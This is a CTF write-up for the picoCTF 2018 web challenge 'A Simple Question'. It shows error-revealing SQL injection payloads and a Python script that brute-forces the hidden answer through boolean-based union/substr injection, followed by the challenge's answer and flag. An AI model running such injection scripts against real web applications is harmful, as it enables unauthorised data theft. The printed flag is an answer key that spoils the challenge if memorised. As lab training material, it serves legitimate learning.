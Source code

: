 ```yaml
---
layout: post
title: Web Exploitation - A Simple Question (650) - PicoCTF 2018
categories: [general, CTFs, Web]
tags: [CTFs, picoCTF2018, Web Exploitation]
comments: true
---
```


The first thing I tried  is to check for an SQLI vulnerability by sending `'` as my payload. 
Lucky enough, it seems there is one, and even more than that - we actually get to see the SQL query  that was made and the error it caused. 
Knowing that we can already tell it is probably an error-based SQL injection challenge.

Here is the result: 
```text
SQL query: SELECT * FROM answers WHERE answer='''
Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "'''" in **/problems/a-simple-question_2_7cdb92e4585fe82f01b576698a830c1e/webroot/answer2.php** on line 15

Fatal error: Uncaught Error: Call to a member function fetchArray() on boolean in /problems/a-simple-question_2_7cdb92e4585fe82f01b576698a830c1e/webroot/answer2.php:17 Stack trace: #0 {main} thrown in /problems/a-simple-question_2_7cdb92e4585fe82f01b576698a830c1e/webroot/answer2.php on line 17
```

So by that we understand that we are dealing with an SQLite3 DB, and we try to retrieve `answer` from the `answers` table.
Let's try to inject `'or 1=1-- -` as this payload will prevent an error - 
```text
SQL query: SELECT * FROM answers WHERE answer=''or 1=1-- -'
You are so close.
```
So from that we can understand that when our SQL query is true, we of course don't get an error, but instead we get the string `"You are so close"`. 
We can use that to slowly **brute-force** the answer.

Basically we want to use the following payload, and each time we'll try to guess one letter that is in our answer, and we'll be able to tell if it is based on the fact that we can either get an error when false, or the string `"You are so close"` when true.
The payload: `' union select answer FROM answers where substr(answer,INDEX,1)= CHAR-- -'`
* Notice that in most cases it is common to use the `like` keyword for that kind of stuff, but because it is case-insensitive in SQLite, we'll user `substr`.

Let's recap our strategy for this challenge - we'll loop through all write-able characters, and when we don't get an error we'll increment `INDEX` by 1, and start to loop again, looking for the next valid character.

# The Script
```python
import urllib3
import requests, sys, time

http = urllib3.PoolManager()
allChars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ _!"#$&()*+`-./:;<=>?@[]\\^{}|~'


flag = ""
like = "%"
i = 1
while 1:
	print (allChars[0])
	for char in allChars:
		statement = '\'  union select answer FROM answers where substr(answer,'+str(i)+',1)="'+char+'"-- -'
		r = http.request("POST", "http://2018shell1.picoctf.com:32635/answer2.php", fields={'answer':statement})
		if "close" in r.data.decode():
			flag += char
			i+=1
			print (flag)
			break
```
Answer - `41AndSixSixths`.
Flag - `picoCTF{qu3stions_ar3_h4rd_8f84b784}`.
